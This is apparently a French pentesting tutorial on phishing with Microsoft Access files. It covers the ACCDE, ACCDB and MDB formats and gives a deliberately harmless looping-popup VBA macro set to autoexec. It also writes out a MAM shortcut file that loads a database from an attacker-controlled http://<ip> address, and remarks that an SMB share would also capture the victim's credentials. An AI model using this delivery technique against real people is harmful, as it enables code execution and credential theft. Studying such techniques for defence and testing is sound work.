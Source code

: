 Prérequis :

-   Programmation en VBA
-   Compréhension général des services Microsoft en Pentesting.
    

**Comprendre le Sevice Access :**

les fichiers avec pour extension ACCDE (Microsoft Access Execute Only Database) est un fichier utilisé pour protéger un ichier ACCDB. Il remplace le format MDE qui sécurise un fichier MDB utilisé par les anciennes versions d’Access. les permissions ne permettent pas de lire le code des macros (permissions Execute). C'est à dire que le code VBA d’un fichier ACCDE est enregistré de manière à empêcher quiconque de le voir ou de le modifier.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

les differences majeur entre ACCDB et MDB c'est que ACCDB ne prennent pas en charge la sécurité ou la réplication au niveau de l’utilisateur alors que MDB oui, par contre ACCDB utilise un système cryptographique plus avancée via les API windows.

Exemple de fichier MDB :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

Comme vous pouvez le voir les données sont partiellement chiffré on peut obtenir ces données : `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Exemple de fichier ACCDB :

![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

c'est illisible mais nous pouvons malgé tout avoir accès à certaines données via `strings`

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

**MDB et ACCDB sont des bases de données de Microsoft Access**, mais MDB n'est plus utilisé dans les versions récentes. Chaque DB contiennent différents objets comme les tables, requêtes, formulaires, états, ou encore des macros et du code VBA ( Visual Basic ). Les fichiers correspondant aux bases de données Access sont souvent lié à un fichier appellé LACCDB ou LDB pour les ancienne versions. ces fichiers sont des fichiers de verrouillage qui permettent de déterminer quels enregistrements sont verrouillés dans une base de données partagée et par qui ils sont verrouillés.

![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

le but du phishing via Access peux permettre à un attaquant de gérérer un code VBA malveillant en ACCDE et en autoexec pour que au moment de l'execution la victime soit automatiquement redirigé vers le serveurs de l'attaquant.

pour l'exemple nous allons faire un code VBA innoffensif qui va faire une boucle sur la pop up.

```vb
Public Function main()
    func
End Function

Sub func()
	do
	  Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

pour mettre une macro et mettre l'autoexec, aller dans `Créer`->`Macro` et ajouter l'action `ExcuterCode` puis mettre la fonction principal de ton code pour ma part c'est `main()` et après `Ctrl-S` nommez le _autoexec_.

Utilisation de MAM sur un serveur HTTP mais on peut utiliser un partage SMB ce qui va en meme temps volé les creds de la cible.

```powershell
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

Lors de l'execution du MAM voila ce qu'il ce passe.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
